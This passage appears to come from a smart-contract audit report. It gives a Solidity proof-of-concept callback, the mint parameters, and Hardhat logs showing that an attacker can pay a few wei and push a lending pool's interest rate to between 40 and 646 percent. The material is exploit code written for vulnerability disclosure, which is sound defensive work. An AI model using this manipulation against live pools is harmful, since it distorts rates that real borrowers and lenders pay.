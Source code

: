 ```solidity
        uint112 assetIn,
        uint112 collateralIn,
        bytes calldata data
    ) override external{
        jtok.mmint(100_000 ether);
        usdc.mmint(100_000 ether);
        console.log("Asset requested:", assetIn);
        console.log("Collateral requested:", collateralIn);
        //check before
        uint256 beforeJtok = jtok.balanceOf(msg.sender);
        console.log("Attacker jtok before", beforeJtok);
        //transfer
        jtok.transfer(msg.sender, assetIn);
        //check after
        uint256 afterJtok = jtok.balanceOf(msg.sender);
        console.log("Attacker jtok after", afterJtok);
        //check before
        uint256 beforeUsdc = usdc.balanceOf(msg.sender);
        console.log("Attacker USDC  before", beforeUsdc);
        //transfer
        usdc.transfer(msg.sender, collateralIn);
        //check after
        uint256 afterUsdc = usdc.balanceOf(msg.sender);
        console.log("Attacker USDC After", afterUsdc);
        
    }
}
```

Which contains the following settings for a mint:
```solidity
uint112 xIncrease = 3;
uint112 yIncrease = 1000000000000000;
uint112 zIncrease = 5; //Static 167% CDP
```

According to my logs in hardhat:

```
Maturity:  1641859791
Callback before: 8333825816710789998373
Asset requested: 3
Collateral requested: 6
Attacker jtok before 5000000000000000000000
Attacker jtok after 5000000000000000000003
Attacker USDC  before 8333825816710789998373
Attacker USDC After 8333825816710789998379
Callback after: 8333825816710789998379
Callback expected after: 8333825816710789998379
```

The attacker is only required to pay 3 wei of Asset Token and 6 wei of Collateral token. However, after the attacker's malicious mint is up, the interest rate becomes:
```
yMax: 0.0002047533146923118
Min Interest Rate: 0.40383657499999975
Max Interest Rate: 6.461385199999996
zMax: 1666.6666666666667
```
Between 40 and 646 percent.
